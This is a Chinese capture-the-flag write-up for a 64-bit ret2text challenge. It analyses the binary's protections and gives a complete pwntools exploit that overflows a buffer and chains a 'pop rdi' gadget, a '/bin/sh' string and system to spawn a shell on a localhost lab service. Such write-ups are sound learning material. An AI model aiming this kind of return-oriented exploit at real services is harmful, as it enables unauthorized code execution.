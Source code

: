 # ret2text 64

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了64位~~

## 解题思路

思路跟ret2text 32一致，只要执行`system("/bin/sh")`即可

搜索发现存在`pop rdi; ret;`，只要将字符串弹入rdi后执行system即可  
还要注意栈平衡

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'130')
sh.sendline(b'0'*0x58 + p64(0x04011be) + p64(0x0404050) + p64(0x04012b7)) # Addr of pop rdi & /bin/sh & system
sh.interactive()
```

Done.
